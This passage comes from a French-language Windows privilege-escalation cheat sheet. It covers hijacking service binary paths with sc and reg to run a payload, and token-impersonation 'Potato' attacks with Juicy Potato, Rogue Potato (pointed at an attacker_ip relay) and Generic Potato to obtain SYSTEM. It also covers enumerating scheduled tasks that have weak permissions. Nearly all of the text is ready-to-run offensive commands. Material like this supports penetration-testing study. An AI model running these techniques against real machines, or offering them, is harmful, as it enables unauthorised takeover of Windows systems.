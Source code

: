 ### Exploitation permissions services
```batch
# Modifier le binpath d'un service
sc config vulnerable_service binpath= "C:\path\to\payload.exe"
sc stop vulnerable_service
sc start vulnerable_service

# Ou avec reg
reg add "HKLM\SYSTEM\CurrentControlSet\Services\VulnService" /v ImagePath /t REG_EXPAND_SZ /d "C:\payload.exe" /f
```

## 🍯 Token Impersonation (Potato Attacks)

### Détection des privilèges requis
```batch
# Vérifier SeImpersonatePrivilege ou SeAssignPrimaryTokenPrivilege
whoami /priv | findstr "SeImpersonate\|SeAssignPrimaryToken"
```

### Juicy Potato (Windows Server 2016 et antérieurs)
```batch
# Télécharger JuicyPotato.exe
# Usage basique
JuicyPotato.exe -l 1337 -p C:\Windows\System32\cmd.exe -t * -c {CLSID}

# Avec payload personnalisé
JuicyPotato.exe -l 1337 -p payload.exe -t * -c {F87B28F1-DA9A-4F35-8EC0-800EFCF26B83}
```

### Rogue Potato (Windows 10/Server 2019+)
```batch
# Méthode plus récente pour nouvelles versions
RoguePotato.exe -r attacker_ip -e "C:\Windows\System32\cmd.exe" -l 9999
```

### Generic Potato
```powershell
# Alternative PowerShell
Import-Module .\GenericPotato.ps1
Invoke-GenericPotato -Command "C:\Windows\System32\cmd.exe"
```

## 📅 Tâches Planifiées

### Énumération tâches planifiées
```batch
# Toutes les tâches
schtasks /query /fo LIST /v

# Tâches avec permissions faibles
accesschk.exe -dqv "C:\Windows\Tasks"
accesschk.exe -dqv "C:\Windows\System32\Tasks"

# Recherche de tâches modifiables
dir C:\Windows\System32\Tasks /s
icacls C:\Windows\System32\Tasks\*
```
